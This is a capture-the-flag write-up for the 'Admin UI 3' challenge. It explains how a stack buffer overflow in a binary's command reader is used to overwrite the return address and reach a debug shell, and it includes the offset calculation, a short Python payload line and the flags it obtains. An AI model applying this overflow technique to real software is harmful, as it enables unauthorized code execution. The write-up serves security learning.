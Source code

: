# Admin UI 3

So by now we have 2 keys

1. `CTF{I_luv_buggy_sOFtware}`
2. `CTF{Two_PasSworDz_Better_th4n_1_k?`

Let's open the binary again and look deeper inside `secondary_login`. After the authentication it goes to a self made `command_line`.

The pseudo-code is simple:

```
while (True)
{
	read_command(buffer);
	if (buffer == "quit") -> quit
	if (buffer == "version") -> print "Version 0.3"
	if (buffer == "shell") 
	{
		if (shell_enabled) debug_shell() // Spoilers, it's a global variable that is FALSE, so no luck here
		else print "Security made us disable the shell, sorry!"
	}
	...
}
```

So, let's investigate `read_command`, maybe we can find something interesting there, there doesn't seem to be any limitation on size given as parameters.
Indeed! Looks like the function reads up to `\n`, so we can overrun the buffer and get to the juicy return address!

Looking at the stack positions, `buffer` is at `RBP-30` and the return address is at `RBP+8`, which means `56 bytes` of dummy data and other `8 bytes` of the replacement for the address, let it be the address after if (shell_enabled), to skip verification `0x41414349`
Let's construct our payload.

```
shell_addr = 0x41414349
payload = '\x90' * 56 + struct.pack('<Q', shell_addr)
```

Then just type `quit` to end the function aaaaaaaand _we got a shell_!

```
quit
$ ls
an0th3r_fl44444g_yo
flag
main
patchnotes
$ cat an0th3r_fl44444g_yo
CTF{c0d3ExEc?W411_pL4y3d}
[*] Got EOF while reading in interactive
```


